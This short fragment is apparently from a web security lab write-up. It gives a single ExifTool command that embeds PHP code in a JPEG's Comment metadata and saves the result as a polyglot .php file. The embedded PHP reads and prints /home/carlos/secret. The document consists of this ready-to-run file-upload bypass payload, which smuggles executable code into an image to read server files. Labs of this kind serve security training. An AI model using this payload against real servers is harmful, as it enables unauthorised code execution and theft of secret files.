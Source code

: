 ExifTool Command:

exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
